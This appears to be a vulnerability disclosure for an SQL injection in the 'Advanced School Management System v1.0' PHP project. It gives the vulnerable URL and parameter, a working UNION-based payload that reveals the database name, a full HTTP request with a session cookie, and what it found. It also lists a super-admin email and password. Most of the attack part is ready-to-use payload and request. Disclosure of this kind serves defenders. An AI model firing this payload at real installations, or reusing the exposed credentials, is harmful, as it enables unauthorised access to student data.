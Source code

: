 # Advanced School Management System v1.0 by itsourcecode.com has SQL injection

Login account: [suarez081119@gmail.com](mailto:suarez081119@gmail.com)/12345 (Super Admin account)

vendors: https://itsourcecode.com/free-projects/php-project/advanced-school-management-system-in-php-with-source-code/

Vulnerability url: /school/view/student_grade_wise.php?grade=

Vulnerability location: /school/view/student_grade_wise.php

[+] Payload: /school/view/student_grade_wise.php?grade=11'%20union%20select%20database()%2c2%2c3%3b%23

Leak place ---> grade

the sql injection is：11' union select database(),2,3;#

Current database name: std_db, length is 6

Request package for Select all students whose grade is specified：

```
GET /school/view/student_grade_wise.php?grade=11'%20union%20select%20database()%2c2%2c3%3b%23 HTTP/1.1
Host: 10.12.171.4
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/102.0.0.0 Safari/537.36
Accept: */*
Referer: http://10.12.171.4/school/view/all_student.php
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Cookie: PHPSESSID=cp26rmntdlbhle8qiofns95sv7
Connection: close
```

SQL injection result is as follows，line 6 database name is displayed.

![image-20220624163833913](D:\学习\研究生\漏洞挖掘\CVE\bug_report\blob\main\vendors\itsourcecode.com\advanced-school-management-system\sql_injection.assets\image-20220624163833913.png)